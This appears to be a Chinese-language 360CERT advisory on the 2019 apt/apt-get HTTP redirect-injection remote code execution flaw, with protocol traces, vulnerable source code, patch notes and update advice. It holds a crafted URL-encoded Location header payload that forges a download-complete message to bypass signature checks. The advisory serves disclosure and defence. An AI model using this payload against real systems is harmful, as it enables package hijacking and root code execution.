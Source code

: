 ```yaml
---
id: cb2bff3f50442420e32f040ec474d84a
title:  Linux 包管理器apt/apt-get 远程代码执行漏洞预警
tags: 
  - 安全资讯
  - 360CERT
---
```


#  Linux 包管理器apt/apt-get 远程代码执行漏洞预警

0x00 漏洞背景
---------


2019年1月22日@Max Justicz在其博客中公开了有关于debian系包管理器`apt/apt-get`远程代码执行的一些细节。当通过`apt`进行任意软件的安装、更新等，默认会走HTTP而非HTTPS，攻击者可以通过中间人劫持等手法劫持HTTP流量，并通过重定向及相关响应头的构造绕过`apt`本地签名的判断执行任意代码/命令，甚至可能得到目标服务器的root权限。


360CERT判断该漏洞危害严重，影响面较大。建议使用Debain系发行版的用户及时进行`apt`软件的更新或者对服务器进行流量自查。


0x01 漏洞详情
---------


在获取数据时，`apt`会fork出worker进程用于数据传输。父进程使用类似于HTTP的协议通过stdin/stdout与这些worker进程进行通信，告诉它们下载什么以及将下载的内容放在文件系统的什么位置上。例如，当apt install cowsay时fork出/usr/lib/apt/methods/http，返回一条100 Capabilities消息：



```
100 Capabilities
Version: 1.2
Pipeline: true
Send-Config: true

```
父进程会发送它的设置并且请求一个资源：



```
601 Configuration
Config-Item: APT::Architecture=amd64
Config-Item: APT::Build-Essential::=build-essential
Config-Item: APT::Install-Recommends=1
(...many more lines omitted...)

600 URI Acquire
URI: http://deb.debian.org/debian/pool/main/c/cowsay/cowsay_3.03+dfsg2-3_all.deb
Filename: /var/cache/apt/archives/partial/cowsay_3.03+dfsg2-3_all.deb
Expected-SHA256: 858d5116a60ba2acef9f30e08c057ab18b1bd6df5ca61c233b6b7492fbf6b831
Expected-MD5Sum: 27967ddb76b2c394a0714480b7072ab3
Expected-Checksum-FileSize: 20070

```
然后worker进程的响应像下面这样：



```
102 Status
URI: http://deb.debian.org/debian/pool/main/c/cowsay/cowsay_3.03+dfsg2-3_all.deb
Message: Connecting to prod.debian.map.fastly.net

102 Status
URI: http://deb.debian.org/debian/pool/main/c/cowsay/cowsay_3.03+dfsg2-3_all.deb
Message: Connecting to prod.debian.map.fastly.net (2a04:4e42:8::204)

102 Status
URI: http://deb.debian.org/debian/pool/main/c/cowsay/cowsay_3.03+dfsg2-3_all.deb
Message: Waiting for headers

200 URI Start
URI: http://deb.debian.org/debian/pool/main/c/cowsay/cowsay_3.03+dfsg2-3_all.deb
Size: 20070
Last-Modified: Tue, 17 Jan 2017 18:05:21 +0000

201 URI Done
URI: http://deb.debian.org/debian/pool/main/c/cowsay/cowsay_3.03+dfsg2-3_all.deb
Filename: /var/cache/apt/archives/partial/cowsay_3.03+dfsg2-3_all.deb
Size: 20070
Last-Modified: Tue, 17 Jan 2017 18:05:21 +0000
MD5-Hash: 27967ddb76b2c394a0714480b7072ab3
MD5Sum-Hash: 27967ddb76b2c394a0714480b7072ab3
SHA256-Hash: 858d5116a60ba2acef9f30e08c057ab18b1bd6df5ca61c233b6b7492fbf6b831
Checksum-FileSize-Hash: 20070

```
当HTTP服务器返回redirect重定向时，worker进程返回103 Redirect而不是201 URI Done，然后父进程使用这个响应来确定接下来应该请求的资源：



```
103 Redirect
URI: http://deb.debian.org/debian/pool/main/c/cowsay/cowsay\_3.03+dfsg2-3\_all.deb
New-URI: http://example.com/new-uri

```
漏洞在于对Location进行URL解码后就将其直接将其附加到103 Redirect响应中，造成了注入。



```
// From methods/basehttp.cc
NextURI = DeQuoteString(Req.Location);
...
Redirect(NextURI);

// From apt-pkg/acquire-method.cc
void pkgAcqMethod::Redirect(const string &NewURI)
{
   std::cout << "103 Redirect\nURI: " << Queue->Uri << "\n"
             << "New-URI: " << NewURI << "\n"
             << "\n" << std::flush;
   Dequeue();
}

```

如果HTTP服务器返回的Location为：



```
Location: /new-uri%0AFoo%3A%20Bar

```
则响应包如下：



```
103 Redirect
URI: http://deb.debian.org/debian/pool/main/c/cowsay/cowsay\_3.03+dfsg2-3\_all.deb
New-URI: http://deb.debian.org/new-uri
Foo: Bar

```
那么再进一步构造：



```
Location: /payload%0A%0A201%20URI%20Done%0AURI%3A%20http%3A//deb.debian.org/payload%0AFilename%3A%20/var/lib/apt/lists/deb.debian.org_debian_dists_stretch_Release.gpg%0ASize%3A%2020070%0ALast-Modified%3A%20Tue%2C%2007%20Mar%202017%2000%3A29%3A01%20%2B0000%0AMD5-Hash%3A%2027967ddb76b2c394a0714480b7072ab3%0AMD5Sum-Hash%3A%2027967ddb76b2c394a0714480b7072ab3%0ASHA256-Hash%3A%20858d5116a60ba2acef9f30e08c057ab18b1bd6df5ca61c233b6b7492fbf6b831%0AChecksum-FileSize-Hash%3A%2020070%0A

```
就会形成具有危害的情况：



```
103 Redirect
URI: http://deb.debian.org/debian/pool/main/c/cowsay/cowsay\_3.03+dfsg2-3\_all.deb
New-URI: http://deb.debian.org/payload

201 URI Done
URI: http://deb.debian.org/payload
Filename: /var/lib/apt/lists/deb.debian.org_debian_dists_stretch_Release.gpg
Size: 20070
Last-Modified: Tue, 07 Mar 2017 00:29:01 +0000
MD5-Hash: 27967ddb76b2c394a0714480b7072ab3
MD5Sum-Hash: 27967ddb76b2c394a0714480b7072ab3
SHA256-Hash: 858d5116a60ba2acef9f30e08c057ab18b1bd6df5ca61c233b6b7492fbf6b831
Checksum-FileSize-Hash: 20070

```
这时`apt`就会受到攻击者的控制，安装指定的package并且可以完美通过校验步骤，进而导致apt/apt-get安装到非官方源中的package。而由于apt/apt-get一般情况下只能由权限相对较高的用户执行，进而导致恶意的package可以任意执行代码/命令。


0x02 补丁分析
---------


AcqMethod::Redirect函数通过对NewURI中的字符进行校验来修复该漏洞。


![enter description here](https://p403.ssl.qhimgs4.com/t012738311d1323c5c3.jpeg)


![enter description here](https://p403.ssl.qhimgs4.com/t0184bee991be23176d.jpeg)


0x03 修复建议
---------


Debain可以通过添加security分支的源进行更新，主分支还受到影响：


![](https://p403.ssl.qhimgs4.com/t017a6a248afae19a47.png)


确保`/etc/sources.list`含有如下字段：



```
deb http://deb.debian.org/debian-security/ {发行版编号例如stretch}/updates main
deb-src http://deb.debian.org/debian-security/ {发行版编号例如stretch}/updates main

```
再执行`apt update && apt-get install apt`即可完成修复更新。


Ubuntu可以进行软件包版本升级，对应系统升级到如下版本：


* Ubuntu 18.10 apt - 1.7.0ubuntu0.1
* Ubuntu 18.04 LTS apt - 1.6.6ubuntu0.1
* Ubuntu 16.04 LTS apt - 1.2.29ubuntu0.1
* Ubuntu 14.04 LTS apt - 1.0.1ubuntu2.19


或者在更新时禁用HTTP重定向：



```
$ sudo apt update -o Acquire::http::AllowRedirect=false
$ sudo apt upgrade -o Acquire::http::AllowRedirect=false

```

0x03 时间线
--------


**2019-01-22** @Max Justicz公开漏洞细节


**2019-01-23** 360CERT发布预警


0x04 参考链接
---------


[Remote Code Execution in apt/apt-get](https://justi.cz/security/2019/01/22/apt-rce.html)


